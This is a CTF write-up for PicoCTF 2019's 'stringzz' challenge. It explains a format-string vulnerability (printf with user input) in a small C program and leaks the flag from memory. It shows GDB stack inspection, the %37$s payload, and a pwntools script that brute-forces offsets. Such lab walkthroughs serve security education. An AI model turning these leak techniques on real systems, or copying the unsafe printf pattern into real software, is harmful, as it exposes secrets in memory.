 ```yaml
---
title: Leak the stack
description: Leak the stack using a format string attack.
---
```


# Format string - Leak the stack

## Summary

Two ways :

1. Find the exact offset of the data we want to leak.
2. Bruteforce the stack until we get the right offset.

Both methods work very well, only the first is more instructive.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.

(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)

We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.

```
gef➤  disass printMessage3
Dump of assembler code for function printMessage3:
   0x000006ed <+0>:     push   ebp
   0x000006ee <+1>:     mov    ebp,esp
   0x000006f0 <+3>:     push   ebx
   0x000006f1 <+4>:     sub    esp,0x4
   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
   0x000006f9 <+12>:    add    ebx,0x18bb
   0x000006ff <+18>:    sub    esp,0xc
   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
   0x00000708 <+27>:    push   eax
   0x00000709 <+28>:    call   0x570 <puts@plt>
   0x0000070e <+33>:    add    esp,0x10
   0x00000711 <+36>:    sub    esp,0xc
   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
   0x00000717 <+42>:    call   0x520 <printf@plt>
   0x0000071c <+47>:    add    esp,0x10
   0x0000071f <+50>:    nop
   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000723 <+54>:    leave
   0x00000724 <+55>:    ret
End of assembler dump.
gef➤  b *(printMessage3+42)
- Breakpoint 1 at 0x717
```

Let's run the program and find where the flag is located using the command `grep`.

```
gef➤  grep "FLAG{gg}"
[+] Searching 'FLAG{gg}' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
```

As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.

```
gef➤  x/50xw $sp
0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
0xffffd280:     0x00000001      0xffffd324
gef➤  x/s 0x56558a40
0x56558a40:     "FLAG{gg}\n"
```

As you can see, there is our address inside `> <`.
`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.

```
$ ./vuln
input whatever string you want; then it will be printed back:

%37$s
Now
your input
will be printed:

FLAG{gg}
```

---

The other way to solve this challenge is by using bruteforce to leak all the stack until we get the flag :

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```